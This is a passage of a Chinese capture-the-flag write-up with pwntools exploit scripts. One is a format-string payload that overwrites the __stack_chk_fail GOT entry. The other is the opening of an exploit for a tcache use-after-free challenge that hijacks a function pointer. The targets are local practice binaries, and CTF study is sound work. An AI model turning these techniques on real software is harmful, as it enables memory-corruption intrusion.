 exp:

```
#!/usr/bin/env python

# -*- coding: utf-8 -*-

#Author:ZhiShi

#Tag:exp



from pwn import *

context.log_level = 'debug'

p = process('./pwn')

elf = ELF('./pwn')



__stack_chk_fail=elf.got['__stack_chk_fail']

pay = "%64c%9$hn%1510c%10$hnAAA" + p64(__stack_chk_fail+2) + p64(__stack_chk_fail)

p.sendline(pay)

p.interactive()

```

## YDSneedgirlfriend2.0 - 知世

由于上次 fastbin 的 uaf 效果不好,这次就出一个更简单的 tcache 的吧

考点:tcache uaf

漏洞即free后未置NULL,同时给了后门函数,因此这里考虑直接用后门函数覆写函数指针

exp:


```

#!/usr/bin/env python

# -*- coding: utf-8 -*-

#Author:ZhiShi

#Tag:exp



from pwn import *



context.terminal=['tmux','splitw','-h']



r = process('./pwn')


```